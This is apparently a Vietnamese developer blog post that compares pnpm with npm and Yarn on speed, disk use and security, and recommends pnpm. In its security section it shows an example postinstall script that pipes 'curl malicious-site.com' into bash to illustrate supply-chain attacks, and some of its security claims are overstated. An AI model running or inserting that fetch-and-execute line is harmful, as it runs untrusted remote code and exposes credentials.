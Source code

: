 ```yaml
---
title: "PNPM – Khi Dev Không Cần Phải Chờ NPM “đi chợ” Giúp Mình Nữa"
description: "Khi thời gian cài đặt phụ thuộc sang việc “đi chợ”, đã đến lúc để pnpm cáng đáng nhiệm vụ!"
pubDate: "2025-10-29"
published: true
tags: ["pnpm", "npm", "tooling", "package manager"]
slug: "pnpm-khi-dev-khong-can-cho-npm-di-cho-giup-minh-nua"
author: "Hien Nguyen"
ogTitle: "PNPM – Khi Dev Không Cần Phải Chờ NPM đi chợ Giúp Mình Nữa"
ogDescription: "Khi thời gian cài đặt phụ thuộc sang việc “đi chợ”, đã đến lúc để pnpm cáng đáng nhiệm vụ!"
pairSlug:
  en: "pnpm-when-devs-stop-waiting-for-npm"
---
```


# ⚡ PNPM – Khi Dev Không Cần Phải Chờ NPM “Đi Chợ” Nữa

> “npm install” mà quạt CPU gào rú, disk sắp nổ tung — thì đã đến lúc bạn thử **pnpm**.

---

## 🧩 Câu Chuyện Quen Thuộc

Bạn clone một repo, chạy lệnh:

```bash
npm install
```

Và rồi... chờ.  
Chờ mãi.  
Chờ hoài.

Rồi bạn thử **Yarn**, thấy nhanh hơn tí, nhưng vẫn phải tải cùng một package 10 lần cho 10 dự án khác nhau.  
Ổ cứng ngày càng phình to, thư mục `node_modules` nặng cả GB, và CI thì chạy chậm như rùa bò.

Đó là bức tranh trước khi **pnpm** xuất hiện.

---

## 🚀 PNPM Khác Biệt Như Thế Nào Với NPM Và Yarn?

Tóm gọn: **pnpm sử dụng cách lưu dependency hoàn toàn khác biệt.**

| Cơ Chế          | NPM / Yarn                            | PNPM                                                                    |
| --------------- | ------------------------------------- | ----------------------------------------------------------------------- |
| Cách Lưu        | Copy riêng package cho từng dự án     | Sử dụng **global content-addressable store**, chỉ **symlink** vào dự án |
| Dung Lượng Disk | Nặng, lặp dữ liệu                     | Rất nhẹ, tiết kiệm ổ cứng                                               |
| Tốc Độ Cài Đặt  | Bình thường                           | **Nhanh hơn 2–3 lần** (nhờ cache + hard link)                           |
| Quản Lý Version | Theo từng dự án                       | Siêu chính xác nhờ **strict symlink resolution**                        |
| Bảo Mật Script  | **Tự động chạy `postinstall` script** | **Không tự động chạy trừ khi explicit**                                 |

---

## 🔒 Bảo Mật – Điểm Làm PNPM Thực Sự “Đáng Tiền”

Đây là phần mà nhiều dev **chưa chú ý nhưng cực kỳ quan trọng**.

### ❌ Vấn Đề Của NPM/Yarn:

Khi chạy `npm install` hoặc `yarn install`,  
các package có thể **tự động chạy script** như:

```json
"scripts": {
  "postinstall": "curl malicious-site.com | bash"
}
```

Nếu không kiểm soát kỹ hoặc CI không sandbox, bạn vừa mở cửa cho mã độc chạy trên máy mình. Gần đây, các vụ lừa đảo kiểu này diễn ra thường xuyên: dev pull source Node.js từ repo lạ (thường qua bài test hoặc bài tập), chạy `npm i` là "toang" – mã độc tự chạy, quét env variables để steal API keys, GitHub tokens, AWS credentials, thậm chí lan truyền như worm. Ví dụ, tháng 9/2025, một loạt package phổ biến như chalk, debug bị compromise, dẫn đến hàng trăm package khác bị nhiễm, đánh cắp credentials từ môi trường dev. Worm "Shai-Hulud" đã tự replicate, ảnh hưởng hàng triệu install, khiến bao nhiêu key và tài khoản bay màu chỉ vì scripts auto-run. Đây là **vector tấn công phổ biến** (supply chain attack), đặc biệt với dev mới hoặc team không audit dependencies.

### ✅ PNPM Xử Lý Thông Minh Hơn:

- **Không tự động chạy script**, trừ khi bạn **explicitly cho phép**.
- Có thể bật `--ignore-scripts` mặc định trong `.npmrc`:
  ```bash
  pnpm install --ignore-scripts
  ```
- Giúp **ngăn chặn code độc hại** từ dependency bên thứ ba ngay từ đầu – pull repo lạ về, chạy `pnpm i` thì mã độc nằm im, không steal keys hay lan truyền.
- Ngoài ra, pnpm sandbox hóa `node_modules`, hạn chế **module A override module B** — các kiểu tấn công như _prototype pollution_ hay _dependency shadowing_ gần như biến mất.

> 🧠 Nói cách khác: pnpm cài package, nhưng không “tin tưởng mù quáng” package đó – lý tưởng để tránh những vụ "toang" tài khoản gần đây.

---

## 🧠 Tư Duy Thiết Kế Khác Biệt

### 1️⃣ “Global Store” – Ổ Đĩa Thông Minh

PNPM có một nơi lưu trữ toàn cục (mặc định: `~/.pnpm-store`).  
Mỗi package chỉ tồn tại **một bản duy nhất** — các dự án chỉ “link” tới đó.

```bash
# Lần đầu
pnpm install

# Lần sau (với dự án khác)
pnpm install   # Gần như tức thì, vì package đã có sẵn
```

### 2️⃣ “Strict Linking” – Không Để Dependency Tràn Lan

PNPM tạo `node_modules` theo cấu trúc “virtual store” riêng:  
Dependency chỉ access được những gì khai báo trong `package.json`.  
Điều này giúp:

- Tránh lỗi “hidden dependency” (import module không khai báo).
- Build reproducible, CI không lo “chạy tốt trên máy A, fail trên máy B”.

---

## 🧰 Migration Nhanh Gọn

Nếu dự án đang dùng NPM/Yarn:

```bash
npm install -g pnpm
# Hoặc dùng corepack (Node 18+)
corepack enable pnpm
```

Chuyển sang dùng:

```bash
pnpm install
pnpm run dev
```

Tất cả script và config vẫn hoạt động bình thường.  
Bạn sẽ thấy tốc độ khác biệt ngay từ lần đầu.

---

## ⚖️ Khi Nào Chưa Cần Vội Chuyển Sang PNPM?

- Team đang dùng **workspace Yarn 1 + custom plugin** — cần test kỹ.
- Hệ thống CI/CD cũ chưa hỗ trợ pnpm cache.
- Một số tool (hiếm) vẫn assume cấu trúc `node_modules` truyền thống.

Tuy nhiên, với **Node 18+ và corepack**, việc dùng pnpm giờ đã cực kỳ mượt mà.  
Cả Vercel, Turborepo, NX, Cloudflare Workers đều hỗ trợ sẵn.

---

## 💬 Tổng Kết

|                 | NPM               | Yarn         | PNPM                                |
| --------------- | ----------------- | ------------ | ----------------------------------- |
| Tốc Độ          | 🐢                | ⚡           | 🚀                                  |
| Dung Lượng Disk | Nặng              | Trung bình   | Rất nhẹ                             |
| An Toàn Script  | Chạy tự động      | Chạy tự động | **Không auto-run**                  |
| Cache Toàn Cục  | ❌                | ✅ (partial) | ✅ (full)                           |
| Isolation       | Thấp              | Trung bình   | **Cao (symlink isolation)**         |
| Phù Hợp Với     | Mọi dự án nhỏ/lớn | Trung bình   | **Dev chuyên nghiệp / CI hiện đại** |

---

## 🔗 Tài Liệu Chính Thức

- [pnpm.io](https://pnpm.io)
- [Cấu trúc store của pnpm](https://pnpm.io/symlinked-node-modules-structure)
- [Corepack & pnpm setup](https://nodejs.org/api/corepack.html)

---

✍️ _Viết bởi một dev từng thấy `node_modules` nặng hơn cả source code.  
Giờ ổ cứng sạch sẽ, build nhanh chóng, CI êm ru – nhờ pnpm._
